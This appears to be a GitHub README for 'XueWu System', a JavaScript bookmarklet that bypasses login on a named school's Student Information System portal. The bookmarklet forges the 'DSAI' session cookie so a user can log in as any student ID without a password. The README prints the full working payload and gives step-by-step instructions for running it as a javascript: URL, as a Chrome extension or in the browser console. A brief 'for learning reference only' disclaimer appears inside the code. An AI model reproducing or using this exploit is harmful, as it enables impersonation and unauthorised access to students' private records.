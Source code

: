 # XueWu System

***Zhuang ShengLi Database Presented***

A system written in Javascript that allows users to log in into Student Information System with any identity without password.

## Running It

There are 3 ways to run the script

1. Running using `javascipt:` URL
	1. Copy the following URL:
      
      ```javascipt
      javascript:(function(){/*XueWu System Core Javascript. (C)opyright 2024 KCISHackers. All Rights reserved. Visit: https://www.github.com/KCISHacker/XueWuSystem for more info.*/function hack(id){var date=new Date();date.setTime(date.getTime()+3600000);for(let i=0;i<100;i++)var oldest_time=new Date(0);for(let i=0;i<100;i++)document.cookie='cookie'+i+'=0;expires='+oldest_time.toUTCString();document.cookie="DSAI="+id+";expires="+date.toGMTString()+";path=/";fetch(window.location.origin+'/DSAI/Query/Form_ListDetention?strKeyWord1=').then(response=>response.json()).catch(error=>(function(){console.error(error);if(error.name=='SyntaxError'){alert(id+' seems not exist. Check your spelling.');return;}alert("Error while hacking "+id+"! "+error);successed=false;}()))}console.log("Hello from XueWuSystem: Ciallo～(∠・ω< )⌒★");console.log("Visit: https://www.github.com/KCISHacker/XueWuSystem for more info");if(document.getElementById("hacked")){alert('This page had already been hacked! Do not run twice!');}document.getElementsByClassName("main_logout")[0].innerText="hacked by 学武系统hacker";document.getElementsByClassName("ui-input-text ui-body-inherit ui-corner-all ui-shadow-inset")[1].innerHTML="<div style=\"color:red\">This program is for learning reference only, rather than abusing, or you'll take the risk!</div>";document.getElementById("UserId").addEventListener("keyup",function(event){if(event.keyCode===13){event.preventDefault();btn_onclick();}});document.getElementsByName('btn_s')[0].removeEventListener("click", function(){});function btn_onclick(){if(document.getElementById("UserId").value==''){alert('Username field cannot be empty!');return;}hack(document.getElementById("UserId").value);window.location.href="/DSAI/Home";}document.getElementsByName('btn_s')[0].addEventListener("click",btn_onclick);document.body.innerHTML += '<div id="hacked"></div>';}())
      ```
      
      2. Visit this URL when you are browsing [Student Information System Log In Page](https://portal.kcisec.com/China/Account/LogIn) tab.
      
      3. You can save this URL as a bookmark and use it anytime.

2. Installing as a browser extension  (may not work on Safari or FireFox):
   
   1. Go to [Extension Setting](about://extensions) page in your brower .
   
   2. Enable `Developer Mode` (It should appear somewhere on the page).
   
   3. After enabling this options, you should see a `Load Unpackaged` button on the page.
   
   4. Click it and specify the path of the folder `Chrome Extension` contained in the Git repository.
   
   5. It is now installed on your brower. Do not move, rename, or delete the `Chrome Extension` folder after installation.

3. Running the script manually:
   
   1. Open the JavaScript file named "core.js" from the Git repository.
   2. The file contains comments explaining the purpose of each function.
   3. Try running the functions in the `[Developer Tools](https://en.wikipedia.org/wiki/Web_development_tools) Console` of your browser while on the [Student Information System Log In Page](https://portal.kcisec.com/China/Account/LogIn).

## License

MIT License

Copyright (c) 2024 KCISHackers

Permission is hereby granted, free of charge, to any person obtaining a copy of this software and associated documentation files (the "Software"), to deal in the Software without restriction, including without limitation the rights to use, copy, modify, merge, publish, distribute, sublicense, and/or sell copies of the Software, and to permit persons to whom the Software is furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.
